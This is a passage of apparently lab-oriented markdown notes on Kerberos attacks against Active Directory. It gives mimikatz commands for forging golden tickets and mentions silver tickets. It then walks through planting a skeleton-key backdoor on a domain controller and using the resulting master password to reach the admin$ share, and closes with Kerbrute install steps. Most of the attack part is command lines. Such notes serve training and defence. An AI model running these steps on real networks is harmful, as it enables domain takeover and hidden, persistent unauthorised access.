     Kerberos::golden /user:<username> /domain:controller.local /sid:<sid> /krbtgt:<krbtgt> /id<id>:

The Administrator and sqlservice hashes can be used to create silver tickets.

### Use the ticket to access other machines

    mimikatz # misc::cmd

Access machines. It depends on the privileges of the user the ticket was taken from. With a ticket from krbtgt,
you have access to the ENTIRE network, hence the name golden ticket.

## Kerberos backdoors

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Mimikatz is and start her up:

    cd Downloads
    dir
    mimikatz.exe

If the following command does not return `output '20' OK`, you do not have the administrator privileges to run mimikatz.
    
    mimikatz # privilege::debug
    output '20' OK

Install the skeleton key:

    mimikatz # misc::skeleton

Access the forest (The share will now be accessible without the need for the Administrators 
password):

    net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz

## Tools

* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)

```text
# chmod +x filename
# mkdir /opt/kerbrute
# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
```

* [Mimikatz](https://github.com/gentilkiwi/mimikatz)